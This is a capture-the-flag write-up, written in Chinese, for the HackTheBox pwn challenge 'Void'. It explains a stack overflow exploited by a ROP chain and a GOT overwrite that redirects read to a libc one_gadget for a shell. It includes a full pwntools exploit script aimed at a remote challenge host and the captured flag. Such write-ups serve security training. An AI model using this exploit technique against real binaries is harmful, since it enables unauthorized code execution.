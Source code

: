 # pwn - Void Writeup

---  
![pic](pic/void.png)

## FLAG：
`HTB{pwnt00l5_h0mep4g3_15_u54ful}`

## 觀察：
- 吃input後退出。
- checksec：Partial RELRO
- 題目提供libc，有One Gadget。

## 思路：
- IDA分析`vuln()`輸入字串的地方有bof漏洞，可以溢出138bytes，使用ROP chain。
- Partial RELRO可以使用GOT hijacking，ret2libc。

## 目標：
- 使用ROP chain與GOT hijacking拿到shell。

## 步驟：
1. payload部分：
	1. 填充64+8個`A`將buffer與saved rbp填滿。
	2. 跳到`0x4011b2`，設定`rbx`為`one_gadget`與`read`在`libc`中的差值、設定rbp為`read@got - 0x3d`以便下一個步驟寫入、`r12~r15`設為0。
	3. 跳到`0x401108`執行`add dword ptr [rbp - 0x3d], ebx`，此時read的got內容會被調整成`system`的位址。
	4. 跳到`read@plt`成功執行shell。

## Exploit：  

```python
#!/usr/bin/env python3
  
from pwn import *
  
exe = ELF("./void", checksec=False)
libc = ELF("./glibc/libc.so.6", checksec=False)
ld = ELF("./glibc/ld-linux-x86-64.so.2", checksec=False)
  
context.binary = exe
context.arch = 'amd64'
context.encoding = 'latin'
context.log_level = 'INFO'
warnings.simplefilter("ignore")
  
r = remote('83.136.254.60',54661)
# r = process('./void')
  
 
pop_rbx_rbp_r12_r13_r14_r15 = 0x4011b2
add_rbp_ebx = 0x401108
"""
add dword ptr [rbp - 0x3d], ebx
nop dword ptr [rax + rax]
ret
"""
  
read_plt = exe.plt['read']
read_got = exe.got['read']
read_addr = libc.symbols['read']
one_gadget = 0xc961a
offset = (one_gadget-read_addr)&0xFFFFFFFF
print(f'{hex(read_plt) = }')
print(f'{hex(read_got) = }')
print(f'{hex(read_addr) = }')
  
# Load stage 2 rop ec780
payload = b'A'*72
payload += p64(pop_rbx_rbp_r12_r13_r14_r15) + p64(offset) + p64(read_got+0x3d) + p64(0)*4
payload += p64(add_rbp_ebx)
payload += p64(read_plt)
r.sendline(payload)
r.interactive()
```

![pic](pic/flag.png)